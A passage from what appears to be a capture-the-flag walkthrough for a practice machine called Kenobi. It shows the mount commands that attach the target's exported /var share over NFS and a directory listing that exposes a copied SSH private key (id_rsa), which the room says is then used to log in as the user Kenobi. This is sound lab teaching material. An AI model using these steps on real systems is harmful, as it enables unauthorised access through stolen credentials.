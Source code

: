 ## #3.5

**Instructions**

Let's mount the /var/tmp directory to our machine

```bash
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

!["v8Ln4fu.png"](files/v8Ln4fu.png)

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

!["Vy4KkEl.png"](files/Vy4KkEl.png)

What is Kenobi's user flag (/home/kenobi/user.txt)?

**Answer**

Now, let's mount the share:

```bash
$ sudo mkdir /mnt/kenobiNFS
$ sudo mount 10.10.139.109:/var /mnt/kenobiNFS
```

We are now able to list files and get the SSH private key previously copied.

```bash
$ ls -la /mnt/kenobiNFS/tmp/
total 28
drwxrwxrwt.  6 root    root    4096 May 14 11:03 .
drwxr-xr-x. 14 root    root    4096 Sep  4  2019 ..
-rw-r--r--.  1 unknown unknown 1675 May 14 11:03 id_rsa
drwx------.  3 root    root    4096 Sep  4  2019 systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
drwx------.  3 root    root    4096 Sep  4  2019 systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
drwx------.  3 root    root    4096 Sep  4  2019 systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
drwx------.  3 root    root    4096 May 14 10:25 systemd-private-ff0eab71cb6249d9a85a500051b7cbf4-systemd-timesyncd.service-b6MWS5
```
